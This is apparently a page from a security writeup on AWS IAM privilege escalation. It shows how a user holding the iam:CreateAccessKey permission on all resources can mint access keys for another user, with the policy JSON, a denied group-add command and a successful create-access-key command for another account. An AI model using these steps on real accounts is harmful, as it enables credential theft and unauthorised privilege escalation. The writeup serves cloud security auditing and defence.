 ## 04 - iam:CreateAccessKey

### Description
Users with the iam:CreateAccessKey permission can create access keys for the user(s) specified in the policy.

### Requirements
The user needs to have the iam:CreateAccessKey permission for another user in order to use it for privilege escalation purposes.

### Example
The user is part of only a single group. The group has only one policy attached to it. The policy allows the iam:CreateAccessKey permission for any user:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:CreateAccessKey",
      "Resource": "*"
    }
  ]
}
```

The user is currently not able to add their user account to the Admin group:

```bash
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile privesc
```

An error occurred (AccessDenied) when calling the AddUserToGroup operation: User: arn:aws:iam::[REDACTED]:user/privesc_test is not authorized to perform: iam:AddUserToGroup on resource: group Admin

With the iam:CreateAccessKey permission, the user can create an access key for another user and then use it:

```bash
➜ aws iam create-access-key --user-name gkleijn --profile privesc
```

```json
{
    "AccessKey": {
        "UserName": "gkleijn",
        "Status": "Active",
        "CreateDate": "2019-12-17T23:37:45Z",
        "SecretAccessKey": "[REDACTED]",
        "AccessKeyId": "[REDACTED]"
    }
}
```
